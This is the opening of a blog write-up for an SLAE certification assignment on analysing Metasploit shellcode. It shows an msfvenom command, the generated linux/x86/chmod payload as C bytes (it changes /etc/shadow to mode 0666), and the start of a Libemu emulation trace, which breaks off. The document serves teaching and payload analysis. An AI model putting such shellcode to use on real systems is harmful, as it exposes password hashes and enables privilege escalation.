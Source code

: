 ```yaml
---
title: SLAE - Assignment 5 - Analyzing 3rd party Shellcode 
author: fwinsnes
date: 2021-01-18 13:44:00 +0800
categories: [SLAE]
tags: [assembly, shellcoding]
---
```


#### Introduction

These series of posts starting with the prefix "Assignment" will be created in order to fulfill the requirements of the SLAE certification. 

The fifth assignment from the seven requires analyzing three [shellcodes](https://es.wikipedia.org/wiki/Shellcode) generated by Metasploit through GDB/Ndisasm/Libemu. 
Furthermore, it is required to report the findings during the analysis.

#### Chmod Shellcode (Shellcode #1)

The first shellcode to be analyzed will be one that supposedly chmods a file, however, it isn't really known which one or the type of privileges that are granted. Let's find 
out!

Generating the shellcode with msfvenom:

```term
root@whitecr0wz:~# msfvenom -p linux/x86/chmod -f c 
[-] No platform was selected, choosing Msf::Module::Platform::Linux from the payload
[-] No arch selected, selecting arch: x86 from the payload
No encoder or badchars specified, outputting raw payload
Payload size: 36 bytes
Final size of c file: 177 bytes
unsigned char buf[] = 
"\x99\x6a\x0f\x58\x52\xe8\x0c\x00\x00\x00\x2f\x65\x74\x63\x2f"
"\x73\x68\x61\x64\x6f\x77\x00\x5b\x68\xb6\x01\x00\x00\x59\xcd"
"\x80\x6a\x01\x58\xcd\x80";
root@whitecr0wz:~#
```

##### Libemu

Analyzing the shellcode with Libemu:

```term
whitecr0wz@SLAE:~/assembly/assignments/Assignment_5/dissect1$ echo -ne 
"\x99\x6a\x0f\x58\x52\xe8\x0c\x00\x00\x00\x2f\x65\x74\x63\x2f\x73\x68\x61\x64\x6f\x77\x00\x5b\x68\xb6\x01\x00\x00\x59\xcd\x80\x6a\x01\x58\xcd\x80" | 
../../../libemu/tools/sctest/sctest -vvv -Ss 10000 
verbose = 3
[emu 0x0x1a155f0 debug ] cpu state    eip=0x00417000
[emu 0x0x1a155f0 debug ] eax=0x00000000  ecx=0x00000000  edx=0x00000000  ebx=0x00000000
[emu 0x0x1a155f0 debug ] esp=0x00416fce  ebp=0x00000000  esi=0x00000000  edi=0x00000000
[emu 0x0x1a155f0 debug ] Flags: 
[emu 0x0x1a155f0 debug ] cpu state    eip=0x00417000
[emu 0x0x1a155f0 debug ] eax=0x00000000  ecx=0x00000000  edx=0x00000000  ebx=0x00000000
[emu 0x0x1a155f0 debug ] esp=0x00416fce  ebp=0x00000000  esi=0x00000000  edi=0x00000000
[emu 0x0x1a155f0 debug ] Flags: 
[emu 0x0x1a155f0 debug ] 99                              cwd 
[emu 0x0x1a155f0 debug ] cpu state    eip=0x00417001
[emu 0x0x1a155f0 debug ] eax=0x00000000  ecx=0x00000000  edx=0x00000000  ebx=0x00000000
[emu 0x0x1a155f0 debug ] esp=0x00416fce  ebp=0x00000000  esi=0x00000000  edi=0x00000000
[emu 0x0x1a155f0 debug ] Flags: 
[emu 0x0x1a155f0 debug ] 6A0F                            push byte 0xf
[emu 0x0x1a155f0 debug ] cpu state    eip=0x00417003
[emu 0x0x1a155f0 debug ] eax=0x00000000  ecx=0x00000000  edx=0x00000000  ebx=0x00000000
```